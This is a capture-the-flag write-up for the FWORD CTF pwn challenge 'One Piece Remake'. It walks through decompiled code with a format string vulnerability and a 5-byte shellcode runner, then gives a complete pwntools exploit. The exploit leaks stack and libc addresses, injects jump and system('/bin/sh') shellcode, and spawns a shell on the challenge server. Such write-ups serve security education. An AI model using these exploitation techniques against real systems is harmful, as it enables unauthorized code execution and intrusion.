 # FWORD CTF - One Piece Remake [pwn - 487p]

Note, i did not participate in the ctf, so i solved this challenge after the ctf had ended.

Checksec reveals that its a 32 bit binary with executable stack. We can also overwrite GOT if needed, as its only partial RELRO.
```
[*] '~/ctf/fword/one_piece_remake'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
The menu is similar to the one piece challenge, we can read and run shellcode. However the functionallity of the two are different. This time we are allowed to read 5 bytes into a buffer using the read function, and we can actually execute the 5 byte shellcode using the run command.

```c
void readSC(void)

{
  puts("Give me your devil-shellcode : ");
  printf(">>");
  read(0,&sc,5);
  return 0;
}

void runSC(void)

{
  __x86.get_pc_thunk.ax();
  (*(code *)&sc)();
  return;
}
```

if we look at the source code, we can see that there is a "hidden" option, *gomugomunomi*, that calls the function *mugiwara*, also similar to the one piece challenge.
```c
      iVar1 = strcmp(local_20,"gomugomunomi\n");
      if (iVar1 != 0) break;
      mugiwara();
```
The mugiwara function has a standard format string vulnerability that we can use as a WriteWhatWhere primitive. 

The easy way out would be to overwrite for example fgets with system, or a one gadget to get a shell, but i dont think that is what the author intended. 

```c
void mugiwara(void)

{
  char local_70 [104];
  
  puts("what\'s your name pirate ?");
  printf(">>");
  read(0,local_70,100);
  printf(local_70);
  return 0;
}
```

## Exploit plan
* Leak stack buffer address and write `execve /bin/sh` shellcode to the stack buffer
* write a `jmp stack buffer` shellcode into the 5 byte shellcode buffer
* execute shellcode using the `run` option

### Problem 
As the 100 byte buffer is on the stack, most of it gets overwritten when we return back to the menu, there are only 16 bytes preserved when we get to run our shellcode. So we cant use the default `shellcode.sh()` from pwntools which requires more than 16 bytes. 
### Solution 
Leak libc using the format string vuln, and execute `system(/bin/sh)`, as it only requires 16 bytes. (`push ptr_to_bin_sh_str; push fake_ret_addr; push pointer_to_system; ret`).

## Solve script
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host onepiece.fword.wtf --port 1236 ./one_piece_remake
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./one_piece_remake')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'onepiece.fword.wtf'
port = int(args.PORT or 1236)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''

b *runSC+22
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
libc = ELF('libc6_2.30-0ubuntu2.1_i386.so')
io = start()
io.sendline('gomugomunomi')
io.sendline(b'#%p#%11$p#') # leak buffer and libc address.
io.recvuntil('#')
buffer_adr = int(io.recvuntil('#')[:-1], 16)
log.success('buffer @ {}'.format(hex(buffer_adr)))

libc_leak = int(io.recvuntil('#')[:-1], 16)
libc.address = libc_leak -0x6fdb1
log.success('libc base @ {}'.format(hex(libc.address)))
io.recvuntil('>>')
io.sendline('read')
shellcode = "jmp {}".format(hex(buffer_adr)) #shellcode to jump to our buffer
io.sendline(asm(shellcode,vma=0x804a038))
io.recvuntil('>>')
io.sendline('gomugomunomi')
io.recvuntil('pirate ?')
shellcode = "push {}; push {}; push {}; ret".format(hex(next(libc.search(b'/bin/sh\x00'))), hex(0xdeadc0de), hex(libc.sym['system'])) #write our shellcode to the buffer
io.sendline(asm(shellcode))
io.recvuntil('>>')
io.sendline('run') #execute shellcode
io.recvuntil('>>')
io.sendline('grep Fword flag.txt') # need to use grep as there is no cat on the server ¯\_(ツ)_/¯
io.interactive()
```